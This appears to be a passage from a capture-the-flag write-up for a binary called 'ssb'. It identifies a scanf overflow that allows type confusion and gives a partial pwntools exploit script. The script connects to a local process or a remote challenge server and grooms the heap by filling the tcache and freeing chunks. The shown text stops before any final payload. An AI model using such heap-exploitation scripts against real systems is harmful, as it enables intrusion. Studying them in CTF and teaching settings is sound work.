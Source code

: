 Here is a overflow when `add_file` is called

```c
__isoc99_scanf("%90s", v4->data.file_data.buf);// overflow
```

However, what we can change is the `type` field only, so we can cause the type confusion.

Here is the exploit, I think my idea is explained well in the comments :D

```python
from pwn import *

g_local=1
context(log_level='debug', arch='amd64')
e = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
if g_local:
	sh = process("./ssb")
	gdb.attach(sh)
else:
	sh = remote("34.85.75.40", 31000)

sh.recvuntil("> ")

def add_file(name, size, data):
	sh.sendline("2")
	sh.recvuntil("name: ")
	sh.sendline(name)
	sh.recvuntil("size: ")
	sh.sendline(str(size))
	sh.send(data)
	sh.recvuntil("> ")


def input_name(cmd, name):
	sh.sendline(cmd)
	sh.recvuntil("name: ")
	sh.sendline(name)
	sh.recvuntil("> ")

add_dir = lambda name : input_name('3', name)
remove = lambda name : input_name('6', name)
change_dir = lambda name : input_name('5', name)

def show_file(name):
	sh.sendline('4')
	sh.recvuntil("name: ")
	sh.sendline(name)
	ret = sh.recvuntil('\n')
	sh.recvuntil("> ")
	return ret[:-1]

# 0. create 1+8 big files, 1 small file, 1 big file
#	last big file should have pdata address LSB==0

# make LSB of new chunk == 0x00
add_file('prepad', 0x80, 'prepad')

# fill tcache
for i in xrange(8):
	add_file(str(i), 0x80, str(i))
for i in xrange(7):
	remove(str(i))

add_file("tmp", 0x10, "tmp\n")
add_file('8', 0x60, '8') # will rewrite its address
```